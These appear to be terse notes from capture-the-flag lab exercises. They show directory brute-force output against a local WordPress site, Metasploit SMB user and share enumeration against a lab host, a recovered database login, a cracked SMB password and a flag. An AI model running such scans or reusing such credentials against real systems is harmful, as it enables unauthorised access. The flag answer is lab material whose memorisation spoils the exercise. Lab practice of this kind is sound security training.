 
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 8217]
/javascript           (Status: 301) [Size: 318] [--> http://127.0.0.1:1337/javascript/]
/server-status        (Status: 200) [Size: 7488]
/wp-admin             (Status: 301) [Size: 316] [--> http://127.0.0.1:1337/wp-admin/]
/wp-content           (Status: 301) [Size: 318] [--> http://127.0.0.1:1337/wp-content/]
/wp-includes          (Status: 301) [Size: 319] [--> http://127.0.0.1:1337/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)



# CTF 2 Footprinting & Scanning

db_admin:password@123

---

# CTF 3 Enumeration

SMB users:
[+] 192.248.185.3:445 - TARGET [ josh, nancy, bob ] ( LockoutTries=0 PasswordMin=5 )

sf6 auxiliary(scanner/smb/smb_enumshares) > run

[-] 192.248.185.3:139 - Login Failed: Unable to negotiate SMB1 with the remote host: Expecting SMB1 protocol with command=114, got SMB1 protocol with command=114, Status: (0x00000000) STATUS_SUCCESS: The operation completed successfully.
[!] 192.248.185.3:445 - peer_native_os is only available with SMB1 (current version: SMB3)
[!] 192.248.185.3:445 - peer_native_lm is only available with SMB1 (current version: SMB3)
[+] 192.248.185.3:445 - print$ - (DISK) Printer Drivers
[+] 192.248.185.3:445 - IPC$ - (IPC|SPECIAL) IPC Service (target server (Samba, Ubuntu))
[*] 192.248.185.3: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# Credentials


host           origin         service        public  private  realm  private_type  JtR Format  cracked_password
----           ------         -------        ------  -------  -----  ------------  ----------  ----------------
192.248.185.3  192.248.185.3  445/tcp (smb)  josh    purple          Password

---
Found under pubfiles share...

FLAG1{155505f811b84ed3a4332119565b5cf5}


---
